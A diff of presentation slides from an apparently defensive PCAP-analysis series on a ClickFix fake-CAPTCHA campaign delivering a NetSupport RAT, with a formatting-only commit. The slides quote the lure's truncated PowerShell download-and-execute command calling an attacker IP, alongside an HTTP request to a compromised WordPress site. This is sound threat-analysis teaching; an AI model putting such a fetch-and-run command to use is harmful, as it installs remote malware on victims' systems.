

Before and after one commit to keithjjones/UnpackThePCAP, a Markdown page: episodes/20260623-1-ClickFix-Unknown-RAT-Netsupport/slides.md, 3 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Fix formatting.

````diff
--- a/episodes/20260623-1-ClickFix-Unknown-RAT-Netsupport/slides.md
+++ b/episodes/20260623-1-ClickFix-Unknown-RAT-Netsupport/slides.md
@@ -148,7 +148,8 @@ Domains and IPs can rotate, but the formula stays the same.
                   │
                   ▼
    Stage 3:  Fake CAPTCHA page — React 19 + Tailwind, 1.7 MB
-             "Press Win+R, paste: powershell -c iex(irm 178.156.199.54 ...)"
+             "Win+R, paste:
+             powershell -c iex(irm 178.156.199.54 ...)"
 </pre>
 
 <!--
@@ -1074,6 +1075,8 @@ WHERE id_resp_h = '198.12.223.167'::inet;
 head -20 pcaps/2026-05-22-files-from-SmartApeSG-activity/2026-05-22-step-01-legitimate-but-compromised-site.txt
 ```
 
+... returns ...
+
 ```
 GET https://nhanhoa.org/ HTTP/1.1
 Host: nhanhoa.org
@@ -2428,6 +2431,10 @@ Trust, but verify. Don't trust port 443. Don't trust CAPTCHAs that ask you to ru
 
 **And for the love of God, patch your WordPress plugins.**
 
+<br>
+
+If this was useful — subscribe, like, and share! See you next time.
+
 <!--
 - Based on everything in Brad Duncan's analysis and the PCAP, SmartApeSG's playbook isn't sophisticated: find WordPress, inject script, show fake CAPTCHA, wait.
   - The sophistication is making each step look like something else.
````
